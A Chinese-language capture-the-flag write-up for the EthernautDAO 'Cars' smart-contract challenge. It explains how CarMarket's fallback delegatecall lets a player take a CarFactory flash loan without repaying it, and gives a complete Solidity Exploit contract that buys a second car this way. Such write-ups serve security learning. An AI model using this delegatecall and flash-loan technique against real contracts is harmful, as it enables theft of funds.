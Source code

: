 ## 合约

Twitter Link:https://twitter.com/EthernautDAO/status/1548638648974749696

- [CarToken.sol](https://github.com/Poor4ever/EthernautDAO-Twitter-Solution/blob/main/src/Cars/CarToken.sol) 
- [CarMarket.sol](https://github.com/Poor4ever/EthernautDAO-Twitter-Solution/blob/main/src/Cars/CarMarket.sol) 
- [CarFactory.sol](https://github.com/Poor4ever/EthernautDAO-Twitter-Solution/blob/main/src/Cars/CarFactory.sol) 



## 完成题目条件

需要从 CarMarket 合约购买两辆车.



## 解题

初始你没有任何 CarToken,只能通过 mint() 函数获取 1 个token, CarMarket 和 CarFactory 合约各有 100000 Token

`CarToken` 是一个 ERC20 Token 合约,用于从 CarMarket 购买车辆,挑战者只能通过 mint() 函数获得1 个Token.

`CarMarket` 通过 purchaseCar() 函数购买车辆, _carCost() 判断如果是第一次购买只需要 1个 Token,不是第一购买需要支付 100000 个 Token,CarFactory 合约给购买过车辆的用户提供免费的闪电贷.

```solidity
    fallback() external {
       carMarket = ICarMarket(address(this));
       carToken.approve(carFactory, carToken.balanceOf(address(this)));
       (bool success, ) = carFactory.delegatecall(msg.data);
       require(success, "Delegate call failed");
    }
```

问题出在 `CarFactory` 的回退函数委托调用我们是可以任意输入的,如果通过它去委托调用 `CarFactory` 的 flashLoan() 函数,执行的上下文是在 `CarMarket` 合约,收到的是 `CarMarket` 合约 transfer()的 CarToken ,回调 receivedCarToken() 后,判断的是 `CarFactory` 合约CarToken 余额没变化,即我们可以不用偿还,完成这次闪电贷从 `CarMarket` 购买第二辆车.

编写 Exp 测试完成挑战

[Car.t.sol](https://github.com/Poor4ever/EthernautDAO-Twitter-Solution/blob/main/src/test/Car.t.sol) 

```solidity
contract Exploit {
    CarToken token;
    CarFactory factory;
    CarMarket market;

    constructor(CarToken _tokenAddr, CarFactory _factoryAddr, CarMarket _marketAddr) {
        token = _tokenAddr;
        factory = _factoryAddr;
        market = _marketAddr;
    }
    
    function start() public {
        bytes memory flashLoan_func_sign = abi.encodeWithSelector(factory.flashLoan.selector, 100_000 ether, address(this));

        token.mint();
        token.approve(address(market), type(uint256).max);
        market.purchaseCar("TESLA", "Black", "TEST123");
        address(market).call(flashLoan_func_sign);
        market.purchaseCar("DMC-12", "Silver", "OUTATIME");
    }
    
    function receivedCarToken(address _factoryAddr) public returns(bool) {
        return true;
    }

}
```





